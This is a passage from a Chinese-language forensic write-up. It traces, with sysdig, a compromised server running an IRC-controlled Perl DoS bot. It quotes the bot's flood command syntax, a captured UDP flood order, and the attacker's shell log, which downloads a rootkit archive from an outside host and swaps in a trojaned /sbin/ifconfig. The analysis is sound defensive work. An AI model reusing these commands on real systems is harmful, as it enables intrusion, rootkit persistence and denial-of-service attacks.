 ```
## !u !op <channel> <nick>      ## !u @tcp <ip> <port> <packet size> <time> ##  !u @mail <subject> <sender>       ##
## !u !deop <channel> <nick>    ## !u @http <site> <time>                   ##           <recipient> <message>    ##

```

因催斯汀...这原来是一个perl DoS客户端，可以被IRC控制执行命令，所以攻击者就可以很轻松地管理这些成千上万的机器。我也是足够地幸运，因为wget在整个过程中就进行了4KB的I/O操作，所以如果我查看全部的输出，我就可以得到完整的源代码（以上的是被截断的）。通过读取其中的header我们就可以知道这个东西是怎么运作的——它应该会接收到一个“`@udp`”IRC消息然后使用网络流量冲击目标主机。让我们来看看是否有人发送了一个命令：

```
$ sysdig -r trace.scap.gz -A -c echo_fds evt.buffer contains @udp
------ Read 67B from 170.170.35.93:39194->162.243.147.173:3132
:x!~xxxxxxxxx@xxxxxxxxx.la PRIVMSG #nanana :!u @udp1 39.115.244.150 800 300

```

正如你所见，bot接收到一个（肯定来自它的owner）TCP连接，其中包含一条向39.115.244.150IP的800端口的攻击命令，这正好跟之前网络连接列表中，前两项泛洪数百兆流量的IP地址和端口号相同。这一切都很有意义！但是攻击并没有就此止步：

```
06:13:11 root) wget xxxxxxxxx.xp3.biz/other/rk.tar
06:13:12 root) tar xvf rk.tar
06:13:12 root) rm -rf rk.tar
06:13:12 root) cd /usr/sbin/rk
06:13:17 root) tar zxf mafixlibs

```

什么是mafixlibs？Google说它是一种rootkit，但是我想看看在那个tar文件里包含着什么，所以我就再次使用sysdig，查询tar写了哪些文件：

```
$ sysdig -r trace.scap.gz -c topfiles_bytes proc.name contains tar and proc.args contains mafixlibs
Bytes     Filename
------------------------------
207.76KB  /usr/sbin/rk/bin/.sh/sshd
91.29KB   /usr/sbin/rk/bin/ttymon
80.69KB   /usr/sbin/rk/bin/lsof
58.14KB   /usr/sbin/rk/bin/find
38.77KB   /usr/sbin/rk/bin/dir
38.77KB   /usr/sbin/rk/bin/ls
33.05KB   /usr/sbin/rk/bin/lib/libproc.a
30.77KB   /usr/sbin/rk/bin/ifconfig
30.71KB   /usr/sbin/rk/bin/md5sum
25.88KB   /usr/sbin/rk/bin/syslogd

```

可以很清楚地看到是一堆二进制文件。所以我猜测在我的`spy_users`输出中可以看到攻击者正在替换系统组件：

```
06:13:18 root) chattr -isa /sbin/ifconfig
06:13:18 root) cp /sbin/ifconfig /usr/lib/libsh/.backup
06:13:18 root) mv -f ifconfig /sbin/ifconfig
06:13:18 root) chattr +isa /sbin/ifconfig

```
